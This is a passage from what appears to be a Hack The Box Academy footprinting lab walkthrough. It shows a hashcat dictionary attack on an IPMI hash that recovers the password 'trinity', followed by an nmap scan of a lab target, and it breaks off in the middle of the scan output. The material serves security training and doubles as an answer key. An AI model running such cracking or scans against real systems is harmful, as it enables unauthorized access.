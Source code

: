 ```shell
hashcat -m 7300 -w 3 -O "93c887ae8200000052f17511d0fd3b9a08350b045e118a2cd0c311777576080bc13a5581d522cdb5a123456789abcdefa123456789abcdef140561646d696e:3541221bac8d7e76f34e45697aed40edfbe87fd8" /usr/share/wordlists/rockyou.txt
```

```
┌─[us-academy-1]─[10.10.14.69]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ hashcat -m 7300 -w 3 -O "93c887ae8200000052f17511d0fd3b9a08350b045e118a2cd0c311777576080bc13a5581d522cdb5a123456789abcdefa123456789abcdef140561646d696e:3541221bac8d7e76f34e45697aed40edfbe87fd8" /usr/share/wordlists/rockyou.txt

hashcat (v6.1.1) starting...

<SNIP>

Host memory required for this attack: 65 MB

Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 2 secs

93c887ae8200000052f17511d0fd3b9a08350b045e118a2cd0c311777576080bc13a5581d522cdb5a123456789abcdefa123456789abcdef140561646d696e:3541221bac8d7e76f34e45697aed40edfbe87fd8:trinity

<SNIP>
```

Answer: `trinity`

# Footprinting Lab - Easy

## Question 1

### "Enumerate the server carefully and find the flag.txt file. Then, submit the contents of this file as the answer."

After spawning the target machine, students need to launch an `Nmap` scan against it:

Code: shell

```shell
nmap -A 10.129.141.200
```

```
┌─[eu-academy-1]─[10.10.14.45]─[htb-ac413848@htb-tl1xuueppb]─[~]
└──╼ [★]$ nmap -A 10.129.141.200

Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-28 13:36 GMT
Nmap scan report for 10.129.141.200
Host is up (0.046s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp
| fingerprint-strings: 
|   GenericLines: 
|     220 ProFTPD Server (ftp.int.inlanefreight.htb) [10.129.141.200]
|     Invalid command: try being more creative
|_    Invalid command: try being more creative
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3f:4c:8f:10:f1:ae:be:cd:31:24:7c:a1:4e:ab:84:6d (RSA)
```